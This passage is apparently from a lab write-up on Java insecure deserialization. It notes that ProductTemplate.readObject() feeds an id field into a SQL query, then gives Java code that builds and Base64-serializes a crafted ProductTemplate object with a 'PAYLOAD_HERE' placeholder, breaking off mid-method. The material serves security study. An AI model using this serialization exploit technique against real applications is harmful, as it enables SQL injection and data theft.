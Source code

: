 ```java
    {
        return product;
    }
}
```

In this Java code:

- The `ProductTemplate.readObject()` method is passing the template's `id` attribute into a SQL query

**Hmm... Let's write some Java codes to generate a Java serialized object:**

**`productcatalog/Product.java`:**
```java
package data.productcatalog;
class Product {}
```

**`productcatalog/ProductTemplate.java`:**
```java
package data.productcatalog;

import java.io.Serializable;

public class ProductTemplate implements Serializable
{
    static final long serialVersionUID = 1L;

    private final String id;
    private transient Product product;

    public ProductTemplate(String id)
    {
        this.id = id;
    }

    public String getId()
    {
        return id;
    }
}
```

**`Main.java`:**
```java
import data.productcatalog.ProductTemplate;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.util.Base64;

class Main {
    public static void main(String[] args) throws Exception {
        ProductTemplate originalObject = new ProductTemplate("PAYLOAD_HERE");

        String serializedObject = serialize(originalObject);
        System.out.println("Serialized object: " + serializedObject);

        ProductTemplate deserializedObject = deserialize(serializedObject);
        System.out.println("Deserialized id: " + deserializedObject.getId());
    }

    private static String serialize(Serializable obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream(512);
```